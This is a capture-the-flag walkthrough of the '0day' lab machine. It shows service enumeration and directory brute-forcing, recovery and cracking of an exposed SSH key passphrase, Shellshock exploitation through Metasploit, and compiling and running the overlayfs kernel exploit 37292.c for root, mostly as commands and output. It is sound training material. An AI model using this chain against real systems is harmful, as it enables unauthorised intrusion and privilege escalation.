 Starting with the machine enumeration:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)

80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0day
|_http-server-header: Apache/2.4.7 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.4 (99%), Linux 3.10 - 3.13 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Sony Android TV (Android 5.0) (93%), Android 5.0 - 6.0.1 (Linux 3.4) (93%), Android 5.1 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

SSH and HTTP are running on the machine. One thing to check is whether password authentication is enabled or not for SSH. Enabling SSH access with private key is way more secure than
password as password can be brute forced (even though it is slow, but still)

```
┌──(kali㉿kali)-[~/Desktop/THM/0day]
└─$ ssh root@0day.thm        
The authenticity of host '0day.thm (10.10.225.227)' can't be established.
ED25519 key fingerprint is SHA256:RagPojtI1X12KWTyYetHjXVozjQqsxNmneOUKEjxwU0.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:38: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '0day.thm' (ED25519) to the list of known hosts.
root@0day.thm's password: 
```

So it is enabled.

Enumerating the website, I have used dirsearch

```
[15:01:06] 301 -  303B  - /admin  ->  http://0day.thm/admin/                
[15:01:08] 200 -    0B  - /admin/                                           
[15:01:10] 200 -    0B  - /admin/index.html                                 
[15:01:47] 301 -  304B  - /backup  ->  http://0day.thm/backup/              
[15:01:47] 200 -    1KB - /backup/                                          
[15:01:56] 301 -  305B  - /cgi-bin  ->  http://0day.thm/cgi-bin/            
[15:01:56] 403 -  283B  - /cgi-bin/                                         
[15:01:56] 200 -   13B  - /cgi-bin/test.cgi                                 
[15:02:12] 301 -  301B  - /css  ->  http://0day.thm/css/                    
[15:02:41] 301 -  301B  - /img  ->  http://0day.thm/img/                    
[15:02:48] 200 -  448B  - /js/                                              
[15:03:34] 200 -   38B  - /robots.txt                                       
[15:03:36] 301 -  304B  - /secret  ->  http://0day.thm/secret/              
[15:03:37] 200 -   97B  - /secret/
[15:03:38] 403 -  288B  - /server-status                                    
[15:03:38] 403 -  289B  - /server-status/                                   
[15:04:01] 301 -  305B  - /uploads  ->  http://0day.thm/uploads/            
[15:04:02] 200 -    0B  - /uploads/ 
```

From the backups sub-directory, I got a RSA private key:

<img src=https://github.com/user-attachments/assets/8e5e9d8d-48d1-44d2-b335-5e2cac4222f4>

I tried to use this with SSH and learned that a passphrase is required.

```
┌──(kali㉿kali)-[~/Desktop/THM/0day]
└─$ ssh -i id_rsa root@0day.thm       
Enter passphrase for key 'id_rsa': 
```

Then I used ssh2john to convert the key to john readable and then used john to brute force the passphrase:

```
┌──(kali㉿kali)-[~/Desktop/THM/0day]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt passphrase 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
No password hashes left to crack (see FAQ)
                                                                                                                                                 
┌──(kali㉿kali)-[~/Desktop/THM/0day]
└─$ john passphrase --show                                     
id_rsa:letmein

1 password hash cracked, 0 left
```

But later, I found out that all these were useless. The main vulnerability was the cgi-bin/test.cgi, which was vulnerable to shellshock. Shellshock allows remote code execution.
I used the Metasploit framework to exploit this vulnerability.

```
exploit(multi/http/apache_mod_cgi_bash_env_exec)
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI http://0day.thm/cgi-bin/test.cgi
```

The `TARGETURI` is also to be set here. I got the shell and got to know a user on the machine, Ryan

```
www-data@ubuntu:/home$ ls
ls
ryan
www-data@ubuntu:/home$
```

I tried to log in to Ryan using SSH, assuming the private key was of the user Ryan, but there was no ssh folder in the user's directory.

Then I used the basic commands to get the system info (the hints helped here)

```
www-data@ubuntu:/home$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

www-data@ubuntu:/home$ cat /etc/os-release       
cat /etc/os-release
NAME="Ubuntu"
VERSION="14.04.1 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.1 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
```

- 64-bit arch
- Ubuntu version 14.04.1
- Kernel version 3.13

This version of Ubuntu is vulnerable. I searched in Metasploit for the vulnerability

```
┌──(kali㉿kali)-[~/Desktop/THM/0day]
└─$ searchsploit Ubuntu 14.04 3.13 Local Privilege Escalation
--------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                 |  Path
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation           | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access / | linux/local/37293.txt
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.04/13.10 x64) - 'CONFIG_X86_X32=y' Local Privilege Escalation (3)         | linux_x86-64/local/31347.c
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                                  | linux/local/45010.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                                         | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privilege Escalation              | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR / SMEP)          | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Local Privilege Escalation (KA | linux/local/47169.c
Ubuntu < 15.10 - PT Chown Arbitrary PTs Access Via User Namespace Privilege Escalation                         | linux/local/41760.txt
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
The first one copied the file to the target machine and compiled and executed the file.

```
www-data@ubuntu:/tmp$ gcc 37292.c -o exploiting
gcc 37292.c -o exploiting
www-data@ubuntu:/tmp$ ls -l 
ls -l
total 32
-rw-r--r-- 1 www-data www-data  4968 Jan 13 02:21 37292.c
-rwxr-xr-x 1 www-data www-data 13652 Jan 13 02:23 exploiting
drwxr-xr-x 5 www-data www-data  4096 Jan 13 02:19 haxhax
-rwxrwxrwx 1 www-data www-data   207 Jan 13 01:57 xjsiY
www-data@ubuntu:/tmp$ ./exploiting
./exploiting
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
whoami
root
# 
```
